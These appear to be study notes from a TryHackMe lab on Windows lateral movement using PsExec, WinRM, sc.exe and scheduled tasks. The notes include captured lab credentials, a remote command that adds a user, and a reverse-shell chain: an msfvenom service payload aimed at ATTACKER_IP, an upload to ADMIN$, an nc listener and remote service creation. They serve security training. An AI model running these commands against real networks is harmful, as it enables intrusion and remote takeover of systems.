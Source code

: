 ## Psexec (psexesvc.exe)
- **Ports:** 445/TCP (SMB)
- **Required Group Memberships:** Administrators

Psexec has been the go-to method when needing to execute processes remotely for years. It allows an administrator user to run commands remotely on any PC where he has access. Psexec is one of many Sysinternals Tools and can be downloaded [here](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec).

The way psexec works is as follows:
1. *Connect to Admin$ share and upload a service binary*. Psexec uses `psexesvc.exe` as the name.
2. *Connect to the service control manager* to create and run a service named *PSEXESVC* and associate the service binary with `C:\Windows\psexesvc.exe`.
3. *Create some named pipes* to handle *stdin/stdout/stderr*.

![](Pasted%20image%2020241116001403.png)

To run psexec, we only need to supply the required *administrator credentials* for the remote host and the *command we want to run.*
```shell-session
psexec64.exe \\{MACHINE_IP} -u {Administrator} -p {Mypass123} -i cmd.exe
```


## WinRM (winrs.exe)
- **Ports:** 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Remote Management Users

Windows Remote Management (WinRM) is a web-based protocol *used to send Powershell commands to Windows hosts* remotely. Most *Windows Server installations have WinRM enabled by default*, making it an attractive attack vector.

To connect to a remote Powershell session from the command line, we can use the following command:
```shell-session
winrs.exe -u:{Administrator} -p:{Mypass123} -r:target cmd
```

We can achieve the same from Powershell, but to pass different credentials, we will need to create a *PSCredential* object:
```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

Once we have our *PSCredential* object, we can create an interactive session using the `Enter-PSSession` cmdlet:
```powershell
Enter-PSSession -Computername {TARGET} -Credential $credential
```

Powershell also includes the `Invoke-Command` cmdlet, which runs ScriptBlocks remotely via WinRM. Credentials must be passed through a *PSCredential* object as well:
```powershell
Invoke-Command -Computername {TARGET} -Credential $credential -ScriptBlock {whoami}
```

## sc (sc.exe)
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCE/RPC)
    - 445/TCP (RPC over SMB Named Pipes)
    - 139/TCP (RPC over SMB Named Pipes)
- **Required Group Memberships:** Administrators

Windows services can also be leveraged to run arbitrary commands since they execute a command when started. While a service executable is technically different from a regular application, if we configure a Windows service to run any application, it will still execute it and fail afterwards.

We can create a service on a remote host with *sc.exe*, a standard tool available in Windows. When using sc, it will try to connect to the *Service Control Manager (SVCCTL)* remote service program through *RPC* in several ways:

1. *A connection attempt will be made using RPC/DCE.* 
	   The client will first connect to the Endpoint Mapper (EPM) at port 135, which serves as a catalogue of available RPC endpoints and request information on the SVCCTL service program. 
		   The EPM will then respond with the IP and port to connect to SVCCTL, which is usually a dynamic port in the range of 49152-65535.
	 ![](Pasted%20image%2020241116004617.png)
2. *If the latter connection fails, sc will try to reach SVCCTL through SMB named pipes, either on port 445 (SMB) or 139 (SMB over NetBIOS)*.
	 ![](Pasted%20image%2020241116004902.png)

We can create and start a service named "THMservice" using the following commands:
```shell-session
sc.exe \\{TARGET} create {THMservice} binPath= "net user {munra Pass123} /add" start= auto
sc.exe \\{TARGET} start {THMservice}
```
The "net user" command will be executed when the service is started, creating a new local user on the system. Since the operating system is in charge of starting the service, you won't be able to look at the command output.

To stop and delete the service, we can then execute the following commands:
```shell-session
sc.exe \\{TARGET} stop {THMservice}
sc.exe \\{TARGET} delete {THMservice}
```

## Scheduled Tasks
 You can create and run one remotely with schtasks, available in any Windows installation. To create a task named THMtask1, we can use the following commands:
 ```shell-session
schtasks /s {TARGET} /RU "SYSTEM" /create /tn {"THMtask1"} /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s {TARGET} /run /TN {"THMtask1"} 
```

We set the schedule type (`/sc`) to ONCE, which means the task is intended to be run only once at the specified time and date. Since we will be running the task manually, the starting date (`/sd`) and starting time (`/st`) won't matter much anyway.

Since the system will run the scheduled task, the command's output won't be available to us, making this *a blind attack.*

Finally, to delete the scheduled task, we can use the following command:
```shell-session
schtasks /S {TARGET} /TN {"THMtask1"} /DELETE /F
```


## Example
Connecting to *THMJMP2* using the credentials assigned:
`ssh za\\<AD Username>@thmjmp2.za.tryhackme.com`

For this exercise, we will assume we have already captured some credentials with administrative access:
- **User:** ZA.TRYHACKME.COM\t1_leonard.summers
- **Password:** EZpass4ever

We'll show how to use those credentials to move laterally to *THMIIS* using `sc.exe`. Feel free to try the other methods, as they all should work against *THMIIS*.
	![](Pasted%20image%2020241116021722.png)
While we have already shown how to use sc to create a user on a remote system (by using `net user`), we can also upload any binary we'd like to execute and associate it with the created service. However, if we try to run a reverse shell using this method, we will notice that the reverse shell disconnects immediately after execution. The reason for this is that service executables are different to standard .exe files, and therefore non-service executables will end up being killed by the service manager almost immediately. Luckily for us, msfvenom supports the `exe-service` format, which will encapsulate any payload we like inside a fully functional service executable, preventing it from getting killed.

- generate the payload using msfvenom on our machine
```
user@AttackBox$ msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST={ATTACKER_IP} LPORT={4445} -o {myservice.exe}
```

-  use *t1_leonard.summers credentials* to upload our payload to the *ADMIN$* share of *THMIIS* using *smbclient* from our AttackBox:
```
user@AttackBox$ smbclient -c 'put {myservice.exe}' -U {user} -W ZA {'//thmiis.za.tryhackme.com/admin$/'} {password}
```

- starting a nc listener on specified port:
```shell-session
user@AttackBox$ nc -nvlp 4445
```

- create&start a new service remotely by using sc, associating it with our uploaded binary on THMJMP2: Command Prompt (As t1_leonard.summers):
```shell-session
C:\> sc.exe \\thmiis.za.tryhackme.com create {THMservice-3249} binPath= "%windir%\{myservice.exe}" start= auto
C:\> sc.exe \\thmiis.za.tryhackme.com start {THMservice-3249}
```

- receive connection on attacking machine